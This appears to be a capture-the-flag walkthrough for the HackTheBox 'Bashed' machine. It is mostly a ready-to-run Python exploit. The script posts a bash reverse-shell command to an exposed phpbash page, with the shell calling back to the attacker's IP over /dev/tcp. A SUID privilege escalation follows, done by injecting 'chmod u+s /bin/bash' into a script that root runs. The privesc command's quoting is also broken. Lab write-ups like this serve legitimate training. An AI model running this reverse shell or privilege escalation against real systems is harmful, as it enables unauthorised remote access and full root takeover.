 ```yaml
---
title: Bashed Machine HackTheBox
date: 2022-11-11 00:22:25 +0800
categories: [TOP_CATEGORIE, SUB_CATEGORIE]
tags: [machines]
---
```


# Description 

This machine will be pwned with a simple script, and an easy Priv Escalation.

>So lets run the following script, which will get us into the machine and report us the flag
{: .prompt-tip}

```python
#!/usr/bin/python3

from pwn import *
import signal, requests, time, sys, os

def def_handler(sig, frame):
    print("\n\n[!] Saliendo...")
    sys.exit(1)

#Ctrl+Ctrl
signal.signal(signal.SIGINT, def_handler)

if len(sys.argv) != 2:
    print("Modo de uso: %s + <ip-address>" % sys.argv[0])
    sys.exit(1)

#Declaracion de variables globales

ip_address = sys.argv[1]
main_url = "http://%s/dev/phpbash.min.php" % ip_address
header = {"Content-Type": "application/x-www-form-urlencoded"}
lport = 7007

def getAccess():

    data_post = {
        'cmd' : 'cd /var/www/html/dev; bash -c "bash -i >&/dev/tcp/<YOUR____IP>/7007 0>&1"'
      }

    r = requests.post(main_url, data=data_post, headers=header)
    
if __name__ == '__main__':

    try:
        threading.Thread(target=getAccess, args=()).start()
    except Exception as e:
        log.error(str(e))

    shell = listen(lport, timeout=20).wait_for_connection()
    shell.sendline("cd /home/arrexel")
    time.sleep(2)
    shell.sendline("cat user.txt")
    shell.interactive()
```
We can run the script with the following command:

```bash
python3 file_name.py target_ip
```
>Now we can submit the user flag
{: .prompt-info}

Now, all we gotta do is:

```bash

cd /script
echo "import os os.system("chmod u+s /bin/bash")" > test.py
```
But why?

Well, in /scripts we can see 2 files: test.txt and test.py, from where the text.py text is moved written to test.py, so we can make /bin/bash a SUID.
If we ls -l, we can see test.txt is owned by root, se we can assum that anything inside test.py will also be run as root.

If we now wait 1 min, we can run:
```bash
/bin/bash -p
```
>And now we are able to cd into /root and submit the root flag!
{: .prompt-danger}
